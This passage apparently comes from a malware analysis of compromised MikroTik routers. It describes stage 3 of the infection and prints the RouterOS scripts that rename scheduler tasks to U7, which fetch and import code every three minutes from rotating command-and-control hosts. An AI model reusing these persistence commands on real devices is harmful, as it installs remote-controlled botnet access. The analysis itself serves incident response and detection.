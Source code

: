 3. Eventually a second version of 7wmp0b4s.rsc is downloaded. It's slightly different, often the c2domain is changed, but the path stays the same. It also has a new destination file name, `7xe7zt46hb08`. At this point, the system scheduler name is changed from U6 to U7. 
```
name="7wmp0b4s.rsc" type="script" size=1120 
creation-time=may/11/2021 03:33:19 
contents=
    :do { /system scheduler set U3 name="U7" on-event="/tool fetch url=http://weirdgamesinfo/poll/6b0ba0f1-01a5-4433-b4db-0c5603850c99 mode=http dst-path=7xe7zt46hb08\r\n/import 7xe7zt46hb08" } on-error={ :put "U3 not found"}
    :do { /system scheduler set U4 name="U7" on-event="/tool fetch url=http://weirdgames.info/poll/6b0ba0f1-01a5-4433-b4db-0c5603850c99 mode=http dst-path=7xe7zt46hb08\r\n/import 7xe7zt46hb08" } on-error={ :put "U4 not found"}
    :do { /system scheduler set U5 name="U7" on-event="/tool fetch url=http://weirdgames.info/poll/6b0ba0f1-01a5-4433-b4db-0c5603850c99 mode=http dst-path=7xe7zt46hb08\r\n/import 7xe7zt46hb08" } on-error={ :put "U5 not found"}
    :do { /system scheduler set U6 name="U7" on-event="/tool fetch url=http://weirdgames.info/poll/6b0ba0f1-01a5-4433-b4db-0c5603850c99 mode=http dst-path=7xe7zt46hb08\r\n/import 7xe7zt46hb08" } on-error={ :put "U6 not found"}
    :do { /system scheduler set U7 name="U7" on-event="/tool fetch url=http://weirdgames.info/poll/6b0ba0f1-01a5-4433-b4db-0c5603850c99 mode=http dst-path=7xe7zt46hb08\r\n/import 7xe7zt46hb08" } on-error={ :put "U7 not found"}
```
This changes the system scheduler configuration to the following:

```
 /system scheduler
add interval=3m name=U7 on-event="/tool fetch url=http://weirdgames.info/poll/6b0ba0f1-01a5-4433-b4db-0c5603850c99 mode=http dst-path=7xe7zt46hb08\r\n/import 7xe7zt46hb08" policy=\
```

Most of the time stage 3 is repeated numerous times. Often with the C2 domain changing, but no other changes. For example, the very first 7xe7zt46hb08 scripts downloaded to mikrotik9 was the following:
```
name="7xe7zt46hb08" type="file" size=1120 creation-time=may/13/2021 01:57:20
   contents=
     :do { /system scheduler set U3 name="U7" on-event="/tool fetch url=http://massgames.space/poll/6b0ba0f1-01a5-4433-b4db-0c5603850c99 mode=http dst-path=7xe7zt46hb08\r\n/import 7xe7zt46hb08" } on-error={ :put "U3 not found"}
     :do { /system scheduler set U4 name="U7" on-event="/tool fetch url=http://massgames.space/poll/6b0ba0f1-01a5-4433-b4db-0c5603850c99 mode=http dst-path=7xe7zt46hb08\r\n/import 7xe7zt46hb08" } on-error={ :put "U4 not found"}
     :do { /system scheduler set U5 name="U7" on-event="/tool fetch url=http://massgames.space/poll/6b0ba0f1-01a5-4433-b4db-0c5603850c99 mode=http dst-path=7xe7zt46hb08\r\n/import 7xe7zt46hb08" } on-error={ :put "U5 not found"}
     :do { /system scheduler set U6 name="U7" on-event="/tool fetch url=http://massgames.space/poll/6b0ba0f1-01a5-4433-b4db-0c5603850c99 mode=http dst-path=7xe7zt46hb08\r\n/import 7xe7zt46hb08" } on-error={ :put "U6 not found"}
     :do { /system scheduler set U7 name="U7" on-event="/tool fetch url=http://massgames.space/poll/6b0ba0f1-01a5-4433-b4db-0c5603850c99 mode=http dst-path=7xe7zt46hb08\r\n/import 7xe7zt46hb08" } on-error={ :put "U7 not found"}
```
